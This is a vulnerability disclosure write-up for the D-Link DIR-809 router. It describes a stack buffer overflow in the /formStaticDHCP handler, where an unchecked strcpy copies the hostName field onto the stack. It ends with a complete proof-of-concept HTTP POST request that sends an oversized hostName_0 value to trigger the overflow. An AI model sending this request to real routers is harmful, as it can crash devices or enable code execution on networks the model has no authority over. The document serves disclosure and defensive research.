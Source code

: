 # D-Link DIR809 Vulnerability

The Vulnerability is in page `/formStaticDHCP` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

## Progress

- Confirmed by vendor. 


## Vulnerability description

In the function `FUN_80034d60` ( page `/formStaticDHCP` ), we find a stack overflow vulnerability, which allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description,  

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of a key of format `"hostName_%d"` in the http post request which is completely under the attacker's control. 
2. The string `pcVar1` obtained from user is copied onto the stack using `strcpy` without checking its length. So we can make the stack buffer overflow in `acStack386`. 

![2021-05-10_09h14_38](README/2021-05-10_09h14_38.png)



## PoC

``` 
POST /formStaticDHCP.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 1718
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Basic/Network.asp?t=1620545775523
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=v2F31BZVGw
Connection: close

settingsChanged=0&hostName_0=12312312312312312313*0x200&host_ip_0=192.168.0.101&mac_0=3c22fb4473b4&computer_list_ipaddr_select_0=-1&hostName_1=&host_ip_1=&mac_1=&computer_list_ipaddr_select_1=-1&hostName_2=&host_ip_2=&mac_2=&computer_list_ipaddr_select_2=-1&hostName_3=&host_ip_3=&mac_3=&computer_list_ipaddr_select_3=-1&hostName_4=&host_ip_4=&mac_4=&computer_list_ipaddr_select_4=-1&hostName_5=&host_ip_5=&mac_5=&computer_list_ipaddr_select_5=-1&hostName_6=&host_ip_6=&mac_6=&computer_list_ipaddr_select_6=-1&hostName_7=&host_ip_7=&mac_7=&computer_list_ipaddr_select_7=-1&hostName_8=&host_ip_8=&mac_8=&computer_list_ipaddr_select_8=-1&hostName_9=&host_ip_9=&mac_9=&computer_list_ipaddr_select_9=-1&hostName_10=&host_ip_10=&mac_10=&computer_list_ipaddr_select_10=-1&hostName_11=&host_ip_11=&mac_11=&computer_list_ipaddr_select_11=-1&hostName_12=&host_ip_12=&mac_12=&computer_list_ipaddr_select_12=-1&hostName_13=&host_ip_13=&mac_13=&computer_list_ipaddr_select_13=-1&hostName_14=&host_ip_14=&mac_14=&computer_list_ipaddr_select_14=-1&hostName_15=&host_ip_15=&mac_15=&computer_list_ipaddr_select_15=-1&hostName_16=&host_ip_16=&mac_16=&computer_list_ipaddr_select_16=-1&hostName_17=&host_ip_17=&mac_17=&computer_list_ipaddr_select_17=-1&hostName_18=&host_ip_18=&mac_18=&computer_list_ipaddr_select_18=-1&hostName_19=&host_ip_19=&mac_19=&computer_list_ipaddr_select_19=-1&hostName_20=&host_ip_20=&mac_20=&computer_list_ipaddr_select_20=-1&hostName_21=&host_ip_21=&mac_21=&computer_list_ipaddr_select_21=-1&hostName_22=&host_ip_22=&mac_22=&computer_list_ipaddr_select_22=-1&hostName_23=&host_ip_23=&mac_23=&computer_list_ipaddr_select_23=-1&HNAP_AUTH=9ABC7566FEC3D4A69F750618F1E5EA86 1620545783&submit-url=%2FBasic%2FNetwork.asp
```
